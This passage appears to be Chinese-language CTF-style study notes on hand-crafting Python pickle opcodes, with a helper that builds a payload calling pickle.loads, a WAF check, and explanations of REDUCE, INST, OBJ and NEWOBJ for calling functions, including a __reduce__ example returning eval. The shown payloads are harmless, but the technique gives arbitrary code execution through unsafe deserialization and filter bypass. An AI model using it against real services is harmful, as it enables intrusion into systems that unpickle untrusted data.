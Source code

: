 		  
		  
		  def pickle_string(pickle_type, value):
		      if pickle_type == "BINSTRING":
		          return b"T" + len(value).to_bytes(4, "little") + value.encode()
		  
		  # pickle.loads
		  opcode = (
		      pickle_string("BINSTRING", "pickle")
		      + pickle_string("BINSTRING", "loads")
		      + b"\x93"
		      + b"."
		  )
		  opcode = add_pickle_header(opcode)
		  pickletools.dis(opcode)
		  print(waf(opcode))
		  print(pickle.loads(opcode))
		  ```
- # 构造tuple
	- `b"(" + opcode + b"t"`
		- `(`: 在栈上放一个标记
		- opcode: 在栈上构造tuple的元素
		- `t`: 将标记之上的所有元素都放入元组中
		- [[draws/2024-01-23-17-50-53.excalidraw]]
- # 函数调用/构造对象
	- REDUCE: 调用函数
		- `b"R"`，作用是从当前的栈上拿出函数和参数的元组，调用函数并把结果放在栈顶
		- ```python
		  class A:
		      def __reduce__(self):
		        	#也就是构造这个函数和下面这个tuple
		          return [eval, ("1+1", )]
		  ```
	- BUILD: 修改栈上对象的属性
		- 从当前的栈上拿出对象和一个字典，把字典中的数据放入对象中，并将对象放回栈顶
	- INST: 根据名字查找模块和函数并调用，从而创建对象
		- pickletools提到其支持创建对象，实测支持任意函数调用
	- OBJ: 调用栈上的函数
		- [[draws/2024-01-23-19-22-09.excalidraw]]
	- NEWOBJ: 根据栈上的类产生新的对象
	- NEWOBJ_EX: 和NEWOBJ功能相同，但是支持dict传参
	- 具体构造方法看下方的payload构造函数
- # payload构造函数
	- ```python
	  # https://github.com/python/cpython/blob/3.12/Lib/pickletools.py#L1420
	  
	  import typing as t
	  
	  PickleOpcode = t.NewType("PickleOpcode", bytes)
	  